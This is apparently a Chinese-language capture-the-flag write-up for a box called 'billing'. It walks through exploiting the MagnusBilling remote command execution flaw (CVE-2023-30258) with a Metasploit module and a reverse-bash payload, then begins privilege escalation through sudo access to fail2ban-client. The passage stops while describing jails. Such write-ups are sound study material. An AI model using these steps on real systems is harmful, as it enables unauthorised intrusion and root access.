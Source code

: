 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
### 反弹shell
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)

### 提权
查看当前进程
```
ps -aux | grep fail
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112734.png)

**fail2ban-client** 是一个命令行界面，它允许我们与 **fail2ban-server** 进行交互、配置和控制。简单说明一下，**fail2ban** 是一种安全工具，可以监控日志文件中的可疑活动（例如重复失败的登录尝试），并通过更新防火墙规则来禁止违规的 IP 地址。
使用 fail2ban-client，您可以与 Fail2ban 服务交互以执行作，例如启动或停止 jail、查看或更新设置以及检查服务器上不同 jail 的状态。从本质上讲，它可以帮助您控制服务器如何响应可疑活动以确保其安全。[Fail2Ban – Linux 权限提升 - Juggernaut-sec](https://juggernaut-sec.com/fail2ban-lpe/#What_is_Fail2Ban)
```
sudo /usr/bin/fail2ban-client status
```
查看当前的监狱
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326113233.png)
有 8 个活动的 jail
`Jails`基本上是定义要监控的日志、要查找的模式以及匹配模式时要采取的作的配置。
